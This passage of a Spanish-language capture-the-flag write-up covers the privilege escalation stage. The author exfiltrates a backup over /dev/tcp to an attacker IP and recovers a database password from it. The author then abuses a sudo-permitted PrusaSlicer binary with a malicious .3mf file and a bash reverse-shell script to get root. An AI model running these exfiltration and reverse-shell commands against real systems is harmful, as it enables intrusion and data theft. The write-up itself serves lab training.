-rw-r--r-- 1 root root  6221 Aug 31 08:53 changedetection-backup-20240830194841.zip
-rw-r--r-- 1 root root 33708 Aug 30 20:25 changedetection-backup-20240830202524.zip
```

Desde nuestro equipo atacante, nos pondremos en escucha para recibir el `.zip` y analizarlo cómodamente.

```bash
❯ nc -nlvp 443 > changedetection-backup-20240830194841.zip
listening on [any] 443 ...
```

Desde la máquina víctima, no disponemos de `nc` para transferir el archivo. Por lo tanto, realizamos un `cat` del archvo y el output lo enviamos a nuestro equipo a través de `/dev/tcp`.

```bash
root@a4b9a36ae7ff:/datastore/Backups$ cat changedetection-backup-20240830194841.zip > /dev/tcp/10.10.16.5/443
```

Verificamos que logramos obtener el archivo en nuestro equipo local, descomprimiremos el archivo recibido.

```bash
❯ ls -l changedetection-backup-20240830194841.zip
.rw-rw-r-- kali kali 6.1 KB Sat Jan 25 01:19:24 2025  changedetection-backup-20240830194841.zip
❯ unzip changedetection-backup-20240830194841.zip
Archive:  changedetection-backup-20240830194841.zip
   creating: b4a8b52d-651b-44bc-bbc6-f9e8c6590103/
 extracting: b4a8b52d-651b-44bc-bbc6-f9e8c6590103/f04f0732f120c0cc84a993ad99decb2c.txt.br  
 extracting: b4a8b52d-651b-44bc-bbc6-f9e8c6590103/history.txt  
  inflating: secret.txt              
  inflating: url-list.txt            
  inflating: url-list-with-tags.txt  
  inflating: url-watches.json 
```

Al revisar el contenido del archivo descomprmido, dentro del directorio creado, nos encontramos con un archivo con extensión`.br`. Este tipo de archivos, lo podemos descomprimir con la herramienta de `brotli`.

Al descomprmir este archivo, nos genera el archivo `.txt` que al visualizarlo nos encontramos con las credenciales del usuario `adam`.

<pre class="language-bash"><code class="lang-bash">❯ cd b4a8b52d-651b-44bc-bbc6-f9e8c6590103/

<strong>❯ ls -l
</strong>.rw-r--r-- kali kali 2.5 KB Sat Aug 31 01:47:18 2024  f04f0732f120c0cc84a993ad99decb2c.txt.br
.rw-r--r-- kali kali  51 B  Sat Aug 31 01:47:18 2024  history.txt

❯ brotli -d f04f0732f120c0cc84a993ad99decb2c.txt.br

❯ ls -l
.rw-r--r-- kali kali  12 KB Sat Aug 31 01:47:18 2024  f04f0732f120c0cc84a993ad99decb2c.txt
.rw-r--r-- kali kali 2.5 KB Sat Aug 31 01:47:18 2024  f04f0732f120c0cc84a993ad99decb2c.txt.br
.rw-r--r-- kali kali  51 B  Sat Aug 31 01:47:18 2024  history.txt

❯ cat f04f0732f120c0cc84a993ad99decb2c.txt

...[snip]...

            Raw Permalink Blame History

                &#x3C; ? php return array (                                                                                                                                 
                'parameters' =>                                                                                                                                        
                array (                                                                                                                                                
                'database_host' => '127.0.0.1' ,                                                                                                                       
                'database_port' => '' ,                                                                                                                                
                'database_name' => 'prestashop' ,                                                                                                                      
                'database_user' => 'adam' ,                                                                                                                            
                'database_password' => 'adam_admin992' ,     
</code></pre>

### Abusing sudoers privilege (prusaslicer)

Probaremos de acceder con el usuario `adam` y las credenciales encontradas, logramos el acceso.

Al verificar si el usuario disponía de algún permiso de **sudoers**. Nos encontramos que puede ejcutar como `sudo` el binario `/opt/PrusaSlicer/prusaslicer`.


PrusaSlicer es el software de corte para impresoras 3D de Prusa . Básicamente, "corta" un objeto 3D en capas finas y un conjunto de instrucciones que la impresora 3D puede seguir para imprimir el modelo.


```bash
james@trickster:~$ su adam
Password: 
adam@trickster:/home/james$ sudo -l
Matching Defaults entries for adam on trickster:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User adam may run the following commands on trickster:
    (ALL) NOPASSWD: /opt/PrusaSlicer/prusaslicer
```

Revisando maneras de aprovecharnos de este permiso de **sudoers**, nos encontramos con el siguiente repositorio el cual descargaremos en nuestro equipo local.



```bash
❯ git clone https://github.com/suce0155/prusaslicer_exploit; cd prusaslicer_exploit
Clonando en 'prusaslicer_exploit'...
remote: Enumerating objects: 25, done.
remote: Counting objects: 100% (25/25), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 25 (delta 3), reused 0 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (25/25), 45.69 KiB | 1.34 MiB/s, listo.
Resolviendo deltas: 100% (3/3), listo.
```

Editaremos el archivo `exploit.sh` para establecer nuestra dirección IP de atacante y el puerto desde donde estaremos en escucha. Levantaremos un servidor web para transferir estos archivos al equipo víctima.

```bash
❯ cat exploit.sh
/bin/bash -i >& /dev/tcp/10.10.16.5/444 0>&1

❯ ls -l
.rw-rw-r-- kali kali  38 KB Sat Jan 25 01:25:28 2025  evil.3mf
.rw-rw-r-- kali kali  45 B  Sat Jan 25 01:26:02 2025  exploit.sh
.rw-rw-r-- kali kali 369 B  Sat Jan 25 01:25:28 2025  README.md

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo víctima, nos descargaremos los archivos `exploit.sh` y `evil.3mf`.

```bash
adam@trickster:/tmp$ wget 10.10.16.5/exploit.sh
--2025-01-25 00:27:00--  http://10.10.16.5/exploit.sh
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 45 [text/x-sh]
Saving to: ‘exploit.sh’

exploit.sh   100%[================================>]      45  --.-KB/s    in 0s      

2025-01-25 00:27:00 (3.79 MB/s) - ‘exploit.sh’ saved [45/45]

adam@trickster:/tmp$ wget 10.10.16.5/evil.3mf
--2025-01-25 00:27:08--  http://10.10.16.5/evil.3mf
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 39455 (39K) [application/vnd.ms-3mfdocument]
Saving to: ‘evil.3mf’

evil.3mf    100%[================================>]      45  --.-KB/s    in 0s      

2025-01-25 00:27:08 (315 KB/s) - ‘evil.3mf’ saved [39455/39455]
```

Desde una terminal de nuestro equipo, nos pondremos en escucha por el puerto especificado en el payload para recibir la Reverse Shell.

```bash
❯ nc -nlvp 444
listening on [any] 444 ...
```

Realizaremos la explotación para abusar de este permiso de **sudoers** del binario.

```bash
adam@trickster:/tmp$ sudo /opt/PrusaSlicer/prusaslicer -s evil.3mf 
10 => Processing triangulated mesh
20 => Generating perimeters
30 => Preparing infill
45 => Making infill
65 => Searching support spots
69 => Alert if supports needed
print warning: Detected print stability issues:

EXPLOIT
Low bed adhesion

Consider enabling supports.
Also consider enabling brim.
88 => Estimating curled extrusions
88 => Generating skirt and brim
90 => Exporting G-code to EXPLOIT_0.3mm_{printing_filament_types}_MK4_{print_time}.gcode
```

Revisamos que hemos logrado obtener acceso al equipo como usuario `root`, ya que es quien lo ha ejecutado al disponer de permisos de `sudo` sobre el binario indicado que ha sido aprovechado para ejecutar la Reverse Shell. Logramos visualizar la flag de **root.txt**.

```bash
❯ nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.34] 60656
root@trickster:/tmp# cat /root/root.txt
cat /root/root.txt
1036cb4e3******************
```
